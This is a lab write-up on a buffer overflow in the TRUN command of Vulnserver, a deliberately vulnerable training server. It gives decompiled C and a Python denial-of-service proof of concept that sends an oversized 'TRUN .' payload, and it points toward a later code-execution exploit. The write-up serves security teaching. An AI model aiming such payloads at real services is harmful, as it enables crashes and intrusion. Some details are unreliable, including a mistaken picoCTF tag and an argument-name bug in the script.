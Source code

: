 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 1
published: 2025-10-22
description: DoS exploit development against Vulnserver v1.00
tags: [binary exploitation, medium, picoCTF 2025]
category: CTF Writeup
draft: false
lang: en
---
```


# Vulnserver v1.00 DoS Exploit Dev

## YouTube
<iframe width="560" height="315" src="https://www.youtube.com/embed/Dd5HpNzpu6w?si=ziFH6kOkVx-yjs3p" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Vulnerability
Vulnserver v1.00 has the following commands:

1.  HELP
2.  STATS [stat\_value]
3.  RTIME [rtime\_value]
4.  LTIME [ltime\_value]
5.  SRUN [srun\_value]
6.  TRUN [trun\_value]
7.  GMON [gmon\_value]
8.  GDOG [gdog\_value]
9.  KSTET [kstet\_value]
10. GTER [gter\_value]
11. HTER [hter\_value]
12. LTER [lter\_value]
13. KSTAN [lstan\_value]
14. EXIT

-----

The code that controls **TRUN** is as follows:

```c
else if ( !strncmp(buf, "TRUN ", 5u) )
{
	Destination = (char *)malloc(3000u);
	memset(Destination, 0, 3000u);
	for ( i = 5; i < len; ++1 )
	{
		if ( buf[i] == 46 )
		{
			strncpy(Destination, buf, 3000u);
			Function3(Destination);
			break;
		}
	}
	memset(Destination, 0, 0xBB8u);
	v17 = send(s, "TRUN COMPELTE\n", 14, 0);
}

char *__cdecl Function3(char *Source)
{
	char Destination[2008];

	return strcpy(Destination, Source);
}
```

Here, if the **6th value** of the string following the **TRUN** command matches **46** (ASCII text (46): `.`), `Function3` is called from `essfunc.dll`. This function creates a buffer that can store a string of **2008 bytes** but then saves **3000 bytes** into it. This is a very dangerous vulnerability that can allow a **Buffer OverFlow (BOF)** attack.

## PoC
```python
from argparse import ArgumentParser
from socket import *

def createPayload():
    data = b"A" * 65535

    payload = b"TRUN \x2E"
    payload += data

    return payload

def exploit(ip: str, port: int):
    print("[~] Generating payload...")
    payload = createPayload()
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] DoS Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF DoS Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    
    args = parser.parse_args()

    target_ip       = str(args.ip)
    target_port     = int(args.port)

    exploit(target_ip, target_port)

if __name__ == "__main__":
    main()
```

The Proof of Concept (PoC) above is code that **overwrites 65,535 bytes of memory** via a Buffer Overflow (BOF) attack.
The program terminates abnormally with a DEP Violation error.
A DEP Violation error means that an error is returned due to **an attempted return to a non-executable memory location**.
This indicates that **it's possible to overwrite the return address in the program to perform a Control Flow Hijack,** which could ultimately lead to the execution of a remote attacker's shellcode.
In Part 2, we will develop an RCE Exploit involving a NOP Slide and shellcode generation.